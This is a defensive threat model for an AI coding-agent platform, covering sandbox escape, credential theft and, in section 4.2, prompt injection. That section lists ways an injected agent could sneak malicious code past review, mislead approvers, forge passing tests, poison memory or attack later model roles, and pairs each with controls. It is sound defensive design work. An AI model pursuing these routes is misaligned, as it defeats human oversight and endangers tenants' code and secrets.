



# Threat Model

**Owner:** WS-09 · **Status:** fix round wave 1 (R1/R2 findings applied) · **Date:** 2026-10-24
**Contract versions cited:** C-ARCH 2.0.0, C-STATE 2.0.0, C-IDS 2.0.0, C-RUNNER 3.0.0, C-CRD 3.0.0, C-MSG 2.0.0, C-ART 2.0.0, C-JOBREQ 2.0.0, C-DEF 3.0.0, C-PG 2.0.0
**Contracts consumed:** the versions above (C-ARCH §6, C-MSG §1 in particular), ADR-007, ADR-011.

## Purpose

This is the model that says which security controls Replicant must have. It names the assets,
the trust zones, the adversaries, and every threat class the WS-09 brief lists. For each threat it
gives likelihood, impact, the controls that address it, the residual risk with an owner, and how an
attack is detected. Each control has an ID (`SC-nn`, §8). Other sections design most controls;
[control-review.md](control-review.md) maps every control to the section that designs it and lists
the gaps. The capability model that makes a fully prompt-injected agent harmless is in
[agent-capabilities.md](agent-capabilities.md).

## Decisions summary

| # | Decision | Constraints | Reference |
|---|---|---|---|
| 1 | Treat **every sandbox as attacker-controlled from the first byte of untrusted input**. Isolation and authorization are designed for a fully prompt-injected agent with a shell, not for detecting injection | D-21 | §4.2, [agent-capabilities.md](agent-capabilities.md) |
| 2 | **Confirm ADR-007** (separate exec cluster). Strengthen it: the exec cluster lives in its **own AWS account** and the sandbox subnets have **no route to the internet** | D-21, D-22 | [adr/001](adr/001-confirm-adr-007-exec-cluster-separate-account.md), CCR-09-07 (applied, C-ARCH 1.1.0+) |
| 3 | VM-based isolation is the boundary for untrusted code, and it is a boundary that has failed in 2026. Kata had several guest-to-host and annotation-to-host advisories in 2026 [verified: https://github.com/kata-containers/kata-containers/security/advisories, 2026-10-24]. Runtime hardening (no runtime annotations, sandboxed virtiofsd), a 72-hour patch SLA, and blast-radius limits behind the runtime are mandatory | D-06 | §4.1, SC-01, SC-02 |
| 4 | **Bound the exec side's minting power.** Run tokens carry a core-signed **run grant**, so a compromised Runner can mint tokens only for runs the orchestrator authorized. Tokens are **per audience**, so the external AI gateway cannot replay them to repo-mirror or MCP | D-21 | [adr/005](adr/005-run-grants-bound-exec-side-minting.md), [adr/006](adr/006-per-audience-run-tokens.md), CCR-09-01, CCR-09-02 (applied, C-RUNNER 2.x) |
| 5 | **Approval binds to content.** The Publisher publishes exactly the diff bundle digest in the approved packet. Any change after approval goes back through the risk rules and the gate | D-19 | SC-28 |
| 6 | **Exfiltration is bounded by destinations, not by content inspection.** Sandboxes can reach only internal endpoints, DNS answers only allowlisted names, and stolen AWS credentials work only through the sandbox VPC endpoint | D-21 | SC-07, SC-13, SC-31 |
| 7 | Residual risks with no complete control are listed explicitly, each with an owner (§6) | — | §6 |

---

## 1. Scope and assets

| ID | Asset | Where | Why it matters |
|---|---|---|---|
| A1 | Tenant source code (1,500 repos), including unreleased work | GitHub; repo-mirror cache; sandbox workspaces; Zoekt index; diff bundles; session state | Confidentiality across tenants and to outsiders |
| A2 | Ability to change code on protected branches (push, PR, merge) | GitHub App installation tokens (Publisher); human approvals | Integrity of production software. The highest-value outcome for an attacker |
| A3 | GitHub App private keys (prod, dev) | KMS (prod), local secret store (dev) | Mint tokens for every installation |
| A4 | Human approvals and gate decisions | Temporal histories; approvals projection; audit bucket | Approval bypass leads to A2 |
| A5 | Long-term memory | Postgres `memory`; S3 `memory` | Poisoning affects every later job, silently |
| A6 | Release Bundles, definitions, prompts, CLI images | Postgres `registry`, S3 `registry`, Langfuse, ECR | Supply chain of Replicant behavior |
| A7 | Credentials in flight: run tokens, per-run STS, installation tokens, Temporal mTLS certs, DB IAM tokens | Pods, memory | Lateral movement |
| A8 | Secrets present in tenant repos (accidentally committed) | A1 locations plus transcripts, logs, briefings, search index | Leak outside the repo's audience |
| A9 | PII: names, emails, Slack IDs; PII inside repos, issues, logs, screenshots | Postgres `identity`; transcripts; screenshots | Privacy obligations |
| A10 | Model and compute budget | AI gateway; exec node pools | Denial of wallet |
| A11 | Audit trail | Postgres `audit`; S3 `audit` (Object Lock); CloudTrail | Detection, compliance evidence |
| A12 | Temporal workflow payloads (issue text, plans, steering text) | Temporal persistence (PostgreSQL 16) | Confidentiality; operators see them through the Temporal UI |
| A13 | Availability of the control plane (99.9%) and of sandboxes | Both clusters | SLO |
| A14 | Tenant isolation itself (policies, quotas, memory scopes) | Everywhere | 40 tenants with separate policy |
| A15 | Observability data (Loki, Tempo, Langfuse, Mimir) | Core `observability`, `langfuse` | Contains redacted transcripts and IDs; cross-tenant leakage risk |

## 2. Trust zones

| Zone | Contents | Trusted for | Not trusted for |
|---|---|---|---|
| Z0 External untrusted | Issue and PR text, repo contents, dependency code, tool output, model output, web content inside repos | nothing | anything |
| Z1 Core control services | Replicant Python services in `fct-<env>-core` | Business logic within their own role (single writer per schema) | Any other service's role. Each holds only its own credentials |
| Z2 Core data planes | Temporal, Postgres, S3, KMS | Storage and crypto | Authorization decisions not configured in their policies |
| Z3 Exec system | runner-api, agentrun-controller, run-notifier, repo-mirror | Run lifecycle | Anything beyond run lifecycle. Assume a Z4 escape can reach the nodes they share with nothing, but Z3 is still the next ring after Z4 |
| Z4 Sandbox | AgentRun pods | **Nothing.** Everything produced here is untrusted output | Everything |
| Z5 External SaaS | GitHub, Slack, Okta, Jira, AI gateway, Artifactory | Their documented security properties (signature verification, OIDC) | Content they carry (Z0) |

Model output is Z0 content, even when the model is ours. A run result, a plan, a QA report, a review
report, and a PR description written by an agent are untrusted wherever they are read.

## 3. Adversaries

| ID | Adversary | Capability | Goal |
|---|---|---|---|
| ADV-1 | Malicious content author: external issue reporter on a public repo, a contractor, a commenter, the author of a malicious dependency or repo file | Writes text the agent reads | Make the agent push code, leak data, or poison memory |
| ADV-2 | Compromised upstream dependency or package | Code runs during `npm ci`, `pip install`, builds, tests | Code execution in the sandbox, persistence in caches, exfiltration |
| ADV-3 | Compromised engineer account (phished Okta, stolen GitHub session, stolen Slack session) | Acts as a linked, authorized user | Trigger, approve, steer, read |
| ADV-4 | Malicious or careless insider operator or Replicant admin | Platform access, Temporal UI, memory curation, release controls, break-glass | Read tenant data, plant memory, ship a malicious bundle |
| ADV-5 | Tenant A user targeting tenant B | Normal tenant-A access | Read B's code, memory, artifacts, logs; consume B's quota |
| ADV-6 | Fully prompt-injected agent (derived from ADV-1/ADV-2) | Shell in the sandbox plus every credential the run holds | All of the above, from inside |
| ADV-7 | Attacker who has compromised one Replicant service (RCE in a Python service or in runner-api) | That service's credentials and network position | Pivot to A2, A3, cross-tenant data |
| ADV-8 | Compromised or curious third party in the path: AI gateway operator, model provider, Artifactory admins | Sees traffic routed to it | Data collection, token replay |
| ADV-9 | Attacker with a foothold on a node (post sandbox escape) | Root on an exec node | Read co-located runs, steal node and pod credentials, persist |

## 4. Threat register

Scales. **Likelihood** L1 (rare: needs a novel exploit chain) · L2 (unlikely) · L3 (possible:
known technique, moderate effort) · L4 (likely: commodity technique against this design) · L5
(expected: will happen at this scale). **Impact** I1 (negligible) · I2 (one job affected) · I3 (one
tenant's confidentiality or integrity) · I4 (several tenants, or protected-branch code change) · I5
(org-wide: all tenants, App key, or arbitrary code to production). **Risk** = L × I: 1–5 low, 6–11
medium, 12–19 high, 20–25 critical. Ratings below are **inherent / residual** (after controls).

### 4.1 Sandbox escape and lateral movement (T-SBX)

Runtime candidates are WS-02's (gVisor `runsc` systrap/KVM, Kata + Firecracker, Kata + Cloud
Hypervisor). Escape history, as of 2026-10-24:

| Runtime | Boundary | Published escape-class history | Implication |
|---|---|---|---|
| gVisor | User-space kernel (Sentry) in Go; "no system call is passed through directly to the host"; Sentry host surface limited to fd ops, timers, signals, gofer socket; file opens excluded unless directfs/host networking [verified: https://gvisor.dev/docs/architecture_guide/security/, 2026-10-24] | No published GitHub security advisories [verified: https://github.com/google/gvisor/security/advisories, 2026-10-24]. gVisor documents that it does not cover hardware side channels or "other vectors" (host services, resource exhaustion) [verified: same security page] | Strong syscall surface reduction. Absence of advisories is not absence of bugs (fixes ship in releases) `[unverified: count of silently fixed Sentry escapes]`. directfs widens the host surface; WS-02 must state whether it is on |
| Kata (Go runtime / runtime-rs) + Cloud Hypervisor | Guest kernel in a VM; host side: shim (root), VMM, virtiofsd | 2026 advisories include **guest-root → host-root via virtio-fs** (GHSA-2gv2-cffp-j227, CVE-2026-47243, Critical, runtime-rs ≤ 3.30.0, verified with QEMU and Cloud Hypervisor); **pod-annotation → host compromise** (GHSA-rr59-xxvx-96qr, CVE-2026-44210, virtiofsd argument injection through default-enabled annotations; GHSA-mp2j-xm59-qfgw, CVE-2026-50540, Critical, `io.katacontainers.config_path`; GHSA-7fhf-v3p3-rp56, host bind mounts via annotation); policy bypasses (GHSA-q49m-57vm-c8cc) [verified: https://github.com/kata-containers/kata-containers/security/advisories and the individual advisory pages, 2026-10-24]. Cloud Hypervisor: virtio-block use-after-free (GHSA-f47p-p25q-83rh, High, 2026-05), host file exfiltration via QCOW backing file (GHSA-jmr4-g2hv-mjj6, High, 2026-02) [verified: https://github.com/cloud-hypervisor/cloud-hypervisor/security/advisories, 2026-10-24] | The annotation class is **fully preventable** by configuration and admission (SC-02, SC-05). The virtio and virtiofs class needs patching speed, host-side sandboxing of virtiofsd, and preferring block devices over shared filesystems |
| Kata + Firecracker | Same, with the Firecracker VMM and its jailer | Firecracker: out-of-bounds write in the virtio-pci transport (GHSA-776c-mpj7-jm3r, High, 2026-04); host file overwrite via symlink in the jailer (GHSA-36j2-f825-qvgc, Moderate, 2026-01) [verified: https://github.com/firecracker-microvm/firecracker/security/advisories, 2026-10-24] | Smallest device model of the three. The jailer is defense in depth that itself had a bug |
| runc (for comparison: never allowed for sandboxes) | Shared host kernel | Three High container escapes on 2025-11-05 (masked-path mount races, procfs write redirects, `/dev/console` races); leaked-fd breakouts 2024-01 [verified: https://github.com/opencontainers/runc/security/advisories, 2026-10-24] | The reason SC-05 forbids runc in sandbox namespaces. Also relevant to every **non-sandbox** pod on exec system nodes |

| ID | Threat (STRIDE) | L / I (inherent) | Controls | L / I (residual) | Detection | Residual owner |
|---|---|---|---|---|---|---|
| T-SBX-01 | Guest-to-host escape through the VMM or device emulation (virtio-blk, virtio-pci, virtio-net) (E) | L3 / I4 = 12 | SC-01, SC-02 (patch SLA 72 h for runtime criticals; node lifetime bounded at 72 h plus the 9 h drain window, see SC-02), SC-03, SC-04 (no internet route, minimal node role), SC-08, SC-10, SC-11/12/13 (what is on the node is short-lived and bounded) | L2 / I3 = 6 | Tetragon process and file events on sandbox hosts (`containerd-shim-kata-v2`, VMM, `virtiofsd` spawning shells or writing outside `/run/kata-containers`); GuardDuty EKS Runtime Monitoring `[unverified: coverage on Kata hosts]`; node integrity drift | WS-02 (runtime), WS-09 (patch SLA) |
| T-SBX-02 | Escape via pod annotations or runtime config (`io.katacontainers.*`) (E) | L4 / I4 = 16 if the controller or any pod creator can set annotations | SC-02 (`enable_annotations = []`), SC-05 (VAP denies runtime annotations; only the controller creates pods), SC-06 | L1 / I4 = 4 | VAP audit annotations; any denied create is a P1 alert | WS-02 |
| T-SBX-03 | Guest root → host root via the shared filesystem (virtiofsd). The container rootfs is shared over virtio-fs (WS-02 `disable_block_device_use = true`); the workspace is a guest block device. If WS-02's guestBlockDevice benchmark fails and the workspace falls back to virtio-fs, this residual rises to L3 / I4 = 12 and WS-09 must re-approve the fallback (R2-038) (E) | L3 / I4 = 12 | SC-02 (virtiofsd sandboxed, no `--sandbox none`; workspace on guest block device, ADR-014 `guestBlockDevice`; Kata ≥ 4.3.0 (4.3.1 pinned by WS-02)), non-root container plus no privilege escalation, so a guest-kernel LPE is needed first | L2 / I4 = 8 | Tetragon: virtiofsd file writes outside the shared dir | WS-02 |
| T-SBX-04 | gVisor Sentry bug giving host code execution, or a directfs/gofer path escape (E) | L2 / I4 = 8 | SC-01 (gVisor only for workload classes WS-02 assigns), directfs off unless WS-02 shows the need, SC-04, SC-08 | L1 / I4 = 4 | Tetragon on `runsc-sandbox` | WS-02 |
| T-SBX-05 | After escape: read co-located runs' Secrets, run tokens, workspaces (other tenants' code) via kubelet credentials or the host filesystem (I, E) | L2 / I4 = 8 (conditional on T-SBX-01..04) | SC-04 **tenant isolation groups** (high-sensitivity tenants on dedicated node pools); per-run creds ≤ 60 min (SC-11, SC-13); NodeRestriction limits the kubelet to its node's pods [unverified: re-checked against current docs; standard upstream behavior]; no replicant-wide secret is ever on a sandbox node | L2 / I3 = 6 | Kubelet API audit (Secrets reads by `system:node:*` outside pod start); token use from unexpected source IP at verifiers | WS-09 |
| T-SBX-06 | After escape: steal node IAM role credentials via IMDS (I, E) | L3 / I3 = 9 | SC-04: IMDSv2 required, hop limit 1, enforced by SCP; node role has only `AmazonEKSWorkerNodeMinimalPolicy`-equivalent, ECR pull, and nothing else; Cilium ENI permissions on the operator, not the node | L2 / I2 = 4 | CloudTrail: node-role calls other than ECR/EKS | WS-10 |
| T-SBX-07 | After escape: pivot to runner-api, controller, notifier, or mirror (they run on `exec-system` nodes, not sandbox nodes) (E) | L2 / I4 = 8 | Separate node pools with taints; Cilium host firewall on sandbox nodes allows only kubelet, Cilium, CNI, and the API server; exec-system nodes accept nothing from sandbox node IPs except the published listeners | L1 / I4 = 4 | Hubble flow deny logs from sandbox-node identities | WS-02 |
| T-SBX-08 | After escape: reach the core account (Temporal, Postgres, broker) (E) | L2 / I5 = 10 with one account | SC-03 separate cluster **and separate account** (CCR-09-07); only PrivateLink endpoint services cross the boundary, each terminating at an authenticated listener | L1 / I4 = 4 | VPC Flow Logs, PrivateLink endpoint metrics | WS-09 |
| T-SBX-09 | Cross-tenant traffic between sandboxes (lateral) (I) | L4 / I3 = 12 without policy | SC-07, SC-08 (`sbx-no-east-west`); no Services in sbx namespaces (`services: "0"` quota) | L1 / I3 = 3 | Hubble denies | WS-02 |
| T-SBX-10 | Sandbox reaches the Kubernetes API (E) | L4 / I3 = 12 without policy | `automountServiceAccountToken: false`; Cilium `toEntities: kube-apiserver` deny; no RBAC for `sbx-runner` | L1 / I2 = 2 | API server audit: any request from a pod IP in sandbox CIDRs | WS-02 |
| T-SBX-11 | Persistence on a node across runs (backdoored host binary, poisoned image cache) (T) | L2 / I4 = 8 (after escape) | Read-only root filesystem on Bottlerocket or AL2023 with dm-verity where WS-02 confirms; node lifetime ≤ 81 h (SC-02); node replacement on any Tetragon P1 | L1 / I4 = 4 | Image digest verification at pull; node attestation drift | WS-02 |

**Fallback approvals (R2-038, G-13; WS-09 decision, fix-round wave 2).** WS-02's runtime fallback
rules 3–5 (runtime-evaluation.md §8.5) weaken T-SBX-03 or T-SBX-04. WS-09 pre-approves them on these
conditions; outside them the fallback needs a new WS-09 approval:

| Fallback | Residual while active | Conditions | Time box |
|---|---|---|---|
| Rule 3: Kata workspace on `xfsProjectQuota` over virtio-fs (guestBlockDevice failed B-DISK-01/03) | T-SBX-03 rises from L2 / I4 = 8 to **L3 / I4 = 12 (high)** | Kata ≥ 4.3.1; virtiofsd runs `--sandbox=namespace --seccomp=kill`; the Tetragon virtiofsd rule (tenancy.md §3.5) is deployed and alerting; `restricted` tenants do **not** take this fallback (they run on `fixedSizeVolume` if it passes, otherwise on gVisor with `xfsProjectQuota`); recorded as a security exception (`security.exception_granted`, two `replicant-security` principals) | 90 days, renewable once with fresh benchmark evidence |
| Rule 4: Kata workspace on `fixedSizeVolume` (EBS through virtio-fs) | as rule 3 | as rule 3 | as rule 3 |
| Rule 5: gVisor with directfs on (G-13) | T-SBX-04 rises from L1 / I4 = 4 to L2 / I4 = 8 | only for classes WS-02's benchmark shows need it; Tetragon rule on `runsc-gofer`/`runsc-sandbox` host file access deployed | 90 days |

**Runtime override (R2-045, XD-FIX-R2-045).** Moving new runs from `replicant-kata-clh` to
`replicant-gvisor` for an unpatched Kata CVE is a security exception: the ConfigMap entry needs two
`approved_by` principals from `replicant-security`, `expires_at` ≤ 14 days, a ticket, and an
`audit.emit` event `security.exception_granted`; the override annotation is copied to the run
manifest. It moves T-SBX-01..03 exposure to T-SBX-04 for its scope, which WS-09 treats as a
reduction while a Kata escape is unpatched.

### 4.2 Prompt injection (T-PI)

Sources: issue text, PR comments (by authorized humans and by anyone else), repo files (README,
code comments, test fixtures, `CLAUDE.md`, `AGENTS.md`, `.claude/settings.json`, `.mcp.json`),
dependency content (READMEs, post-install output), tool output (test logs, compiler errors, HTTP
responses inside tests), briefings (derived from other repos' CODEOWNERS, OpenAPI descriptions,
Backstage text), memory entries, model output of an earlier role (plans, handoffs, review reports),
and steering text.

The design assumes injection succeeds. What an injected agent can then do is exactly its
capabilities ([agent-capabilities.md](agent-capabilities.md) §2). This section lists what it could
try and what stops it.

| ID | Threat | L / I (inherent) | Controls | L / I (residual) | Detection | Residual owner |
|---|---|---|---|---|---|---|
| T-PI-01 | Injected agent pushes code or opens a PR directly (E) | L5 / I4 = 20 if it had a token | No Git credentials in the sandbox (D-21, SC-14); repo-mirror is read-only smart HTTP (`git-upload-pack` only); no route to github.com (SC-04, SC-07) | L1 / I4 = 4 | Mirror logs any `git-receive-pack` attempt (P2 alert) | WS-02 |
| T-PI-02 | Injected agent writes malicious code into its diff, hoping it ships (T) | L4 / I4 = 16 | Deterministic risk rules (D-19, SC-27); forbidden and sensitive path classes (`.github/workflows/**` cannot be pushed at all because the App has no `workflows` permission; CODEOWNERS, auth, crypto, infra paths raise risk); independent reviewer run on a different CLI and model; Verifier secret, diff-scope, and dependency-change checks (SC-26); human approval bound to the diff digest (SC-28); branch protection plus CODEOWNERS review on GitHub; the PR is authored by the App, which cannot satisfy required reviews | L3 / I3 = 9 | Diff-scope violations metric; reviewer "suspicious change" findings; dependency additions not in the plan | WS-07 (gates), WS-01 (verifier), WS-09 (rules) |
| T-PI-03 | Injected agent approves its own work (S, E) | L4 / I4 = 16 if it could reach a decision channel | The sandbox has no Temporal, Slack, GitHub, or control-plane credentials; gate validator V8 rejects non-human actors; the decision handler re-checks identity (D-18); the App cannot approve its own PR | L1 / I4 = 4 | `ActorNotHuman` rejections metric | WS-07 |
| T-PI-04 | Injected agent misleads the approver: a plan, PR description, QA summary, or code comment that hides what the diff does, or that contains instructions aimed at an LLM in a later role (reviewer, triage, memory extraction) (S, T) | L4 / I3 = 12 | Approval packet leads with deterministic facts (paths changed, risk rules fired, dependency changes, test deltas computed by the harness) before agent prose; agent prose is labelled "agent-written, untrusted" and rendered as text; untrusted text is never interpolated into workflow-generated summaries (C-MSG §3.4); later LLM roles receive earlier outputs inside quoted, delimited blocks (SC-25) | L3 / I3 = 9 | Reviewer disagreement with implementer summary; approver "report misleading" button feeds evals | WS-07, WS-04 |
| T-PI-05 | Repo-supplied agent configuration changes CLI behavior: `.claude/settings.json` hooks or permissions, `.mcp.json` MCP servers, `CLAUDE.md`/`AGENTS.md` instructions. Claude Code reads project settings from the working directory [verified: https://code.claude.com/docs/en/settings, 2026-10-24] (T, E) | L4 / I3 = 12 | Managed settings at `/etc/claude-code/managed-settings.json` [verified: https://code.claude.com/docs/en/managed-settings.md, 2026-10-24] with `allowManagedHooksOnly`, `allowManagedMcpServersOnly`, `allowManagedPermissionRulesOnly`, `permissions.disableBypassPermissionsMode`, and `claudeMdExcludes` for repo `CLAUDE.md` files [verified (index entries): https://code.claude.com/docs/en/settings-reference.md, 2026-10-24]; the file is root-owned, read-only, in the image (SC-24). Codex: `CODEX_HOME` outside the repo; repo `AGENTS.md` is treated as untrusted content `[unverified: a Codex switch that disables project AGENTS.md discovery]` | L2 / I2 = 4 | Entrypoint records which repo agent-config files were present (`run_result` metadata) | WS-03 |
| T-PI-06 | Injected agent uses MCP tools to read beyond the job's scope: code search across repos the requester cannot read, memory of other tenants or other repos (I) | L4 / I3 = 12 | context-mcp and memory-mcp enforce the token's `tenant_id` **and** the requester's read permission (`acting_for` claim, CCR-09-03), checked through identity-service; memory MCP is read-only and scope-filtered (WS-04) | L2 / I2 = 4 | MCP audit: denied scope requests per run | WS-04 |
| T-PI-07 | Injected agent poisons memory through its outputs (`memory_candidates`, handoff) or through episodic records of its job (T) | L4 / I4 = 16 | Candidates only from feedback/repair runs; extraction runs outside the sandbox on human comment text; agent proposals are candidates only, never auto-activated, at most 2 per job; **episodes store no free text** (templated facts only: workflow type, files, outcome, review rounds, topic keys, QA first pass); episodes of unmerged or reverted jobs are never retrievable; episode activation only after merge plus 24 h (WS-04 R2-008, XD-FIX-R2-008); candidate lifecycle and admin curation (D-25, SC-41); content rules | L2 / I3 = 6 for candidates; **none from episode text** (episodes carry no model-written text) | WS-04 anomaly detection | WS-04 |
| T-PI-08 | Injected agent forges a passing QA report (T) | L4 / I3 = 12 | QA verdict is computed by the entrypoint harness from the environment definition's commands and JUnit output, not by the agent; QA runs on a fresh checkout of `base_sha` plus the approved diff bundle, and its own workspace edits are discarded; test-count delta vs base is a deterministic fact in the packet (SC-26) | L2 / I2 = 4 | Test deletions or skips flagged in the packet | WS-05 |
| T-PI-09 | Injected steering: an authorized user's steering text is itself untrusted (pasted from an issue) (T) | L3 / I2 = 6 | Steering is a user turn, never system (ADR-010); the steerer must hold the same permission as the requester (`identity.check_action`); steering cannot change capabilities, only instructions | L3 / I1 = 3 | — | WS-07 |
| T-PI-10 | Injected agent burns budget (loops, huge contexts) | see T-DOW-01 | | | | |
| T-PI-11 | Injected agent attacks the reviewer agent or the triage LLM through artifacts (cross-role injection) | L4 / I2 = 8 | Reviewer gets the diff and the plan in delimited data blocks; reviewer findings cannot lower risk (D-19); triage output is classification into a closed schema | L3 / I2 = 6 | — | WS-03, WS-04 |
| T-PI-12 | **Worker-side LLM calls process untrusted text inside a privileged process**: router intent classification, PR feedback triage, memory extraction, judge calls run in `replicant-worker`/`eval-worker`, which hold DB, S3, KMS (run-grant signing), and Temporal worker credentials (E, T) | L4 / I4 = 16 if output were acted on freely | Worker-side calls are **tool-less** (no function calling, no MCP); outputs are parsed into closed JSON Schemas (enums, bounded strings) and validated before use; an LLM output may only *select* among options the deterministic code enumerated (workflow type, severity raise, candidate yes/no), never supply IDs, URLs, paths, repo names, or commands; free text from LLM output is stored as untrusted data, never interpolated into prompts with system authority or into workflow summaries (C-MSG §3.4) | L2 / I2 = 4 (selection-only call sites); L3 / I2 = 6 for `memory.extract_candidates` | Schema-validation failure counters per call site | WS-01 (router), WS-04 (triage, extraction), WS-06 (judges) |
| T-PI-13 | **Agent-written code executed by target-repo CI before human review (R2-001).** A Publisher push, a repair push, or a takeover push to a same-repository branch triggers `pull_request`/`push` workflows with repository secrets; GitHub App installation tokens do trigger workflows [verified by R2 against docs.github.com, *Triggering a workflow*, 2026-10-24]. An injected agent edits a file CI executes (`conftest.py`, `Makefile`, `package.json` scripts) instead of the workflow file (E, I) | L4 / I4 = 16 | Non-removable risk class `ci_executed_paths` at **critical** on every publish, repair push and takeover push (agent-capabilities §6), so a human gate always precedes the push; test-file changes at least `medium`; takeover push is gated or goes to `replicant-takeover/**`, which tenants must exclude from secret-bearing workflows (agent-capabilities §8); onboarding requires an org ruleset or environment protection so secrets-bearing workflows on `replicant/**` branches need approval (WS-07); fork-based publishing is the recorded alternative (OQ-ORCH-01) | L2 / I4 = 8 (a human approves a malicious CI-executed change: R-02, R-05) | Gate opens with `ci_executed_paths` named; CI runs on `replicant/**` without approval flagged by the onboarding audit | WS-09 (rules), WS-07 (gate rules, Publisher, onboarding), WS-01 (takeover gate) |

**T-PI-12 decision (R1-227, XD-04-14).** WS-09 accepts WS-04's exception: `memory.extract_candidates` is generative by necessity (it writes the candidate statement). It is still tool-less and closed-schema, and its output is never acted on directly: every candidate passes WS-04's content rules, enters `candidate` state, and reaches `active` only through admin curation or the admin-configured policy with probation (R2-008), never from model text alone. All other worker-side call sites stay selection-only. The higher residual above is accepted with owner WS-04.

### 4.3 Credential exfiltration from the sandbox (T-CRED)

Every credential in a sandbox is assumed stolen (D-21). The design question is what each is worth
outside the run.

| Credential | Lifetime | Usable from where | Worth after theft | Control |
|---|---|---|---|---|
| Run token, `aud=ai-gateway` | ≤ 60 min, refresh refused after terminal | Only from the sandbox network (gateway is internal) | Model calls billed to the run until `budget_usd` is exhausted | SC-11, SC-45. The gateway binds the token to `run_id` budget |
| Run token, `aud=memory-mcp` / `context-mcp` | ≤ 60 min | Internal NLB reachable only from sandbox pools | Read the memory and code the run is already entitled to | SC-11, CCR-09-01 (no cross-audience replay), CCR-09-03 |
| Run token, `aud=repo-mirror` | ≤ 60 min | In-cluster only | Fetch `repo_ids` the run already has | SC-11, SC-59 |
| Run token, `aud=runner-sandbox` | ≤ 60 min | Sandbox listener only | Refresh tokens and STS for this run while non-terminal; read its inbox | Runner refuses after terminal |
| STS session (sandbox-artifacts role; held by agentd during prepare and by the uploader, never by the agent) | ≤ 1 h (role chaining cap [verified: V00-27]); still valid up to 1 h after the run ends (R-09) | **Only through the sandbox S3 gateway endpoint** (`aws:SourceVpce` deny in the role policy and in the bucket policy) | Write into its own run prefix; read its own `inputs/` | SC-13, [policies/iam/sandbox-artifacts.permissions.json](policies/iam/sandbox-artifacts.permissions.json) |
| MCP or package-mirror credentials | none: Artifactory read is anonymous on virtual repos inside the VPC | — | — | SC-36 |
| Gateway provider keys | never in the sandbox | — | — | D-11 |

| ID | Threat | L / I (inherent) | Controls | L / I (residual) | Detection | Owner |
|---|---|---|---|---|---|---|
| T-CRED-01 | Token exfiltrated to the attacker and used from outside (I, S) | L4 / I3 = 12 | No route out (SC-04, SC-07, SC-31); STS creds VPCE-bound (SC-13); run tokens are accepted only on internal listeners | L1 / I2 = 2 | Verifiers log source IP; any token use from outside sandbox CIDRs is a P1 | WS-09 |
| T-CRED-02 | Token replayed by a downstream service that received it (AI gateway operator, a compromised MCP server) to another service (S) | L3 / I3 = 9 | Per-audience tokens (CCR-09-01); each verifier checks `aud` equals itself exactly | L1 / I2 = 2 | `aud` mismatch counter at each verifier | WS-02 |
| T-CRED-03 | Token used after the run ends (S) | L3 / I2 = 6 | Refresh refused after terminal; `exp` ≤ 60 min; optional `GET /v1/runs` check at high-value verifiers (repo-mirror checks run phase every fetch) | L2 / I1 = 2 | Use after `finishedAt` | WS-02 |
| T-CRED-04 | Run token for run R used to act on run R′ (S, E) | L3 / I3 = 9 | Every verifier compares `run_id`/`tenant_id` with the resource; sandbox listener authorizes only operations on R (C-RUNNER) | L1 / I3 = 3 | Mismatch counter | WS-02 |
| T-CRED-05 | Secrets placed in sandbox env by a definition (an `env` value holding a secret) (I) | L3 / I3 = 9 | C-DEF: no secret values in specs; WS-09 lint rejects high-entropy values and `secretRef` in sandbox env; sandbox env holds only the `REPLICANT_*` set | L1 / I2 = 2 | Registry publish lint | WS-03 |

### 4.4 Supply chain (T-SC)

| ID | Threat | L / I (inherent) | Controls | L / I (residual) | Detection | Owner |
|---|---|---|---|---|---|---|
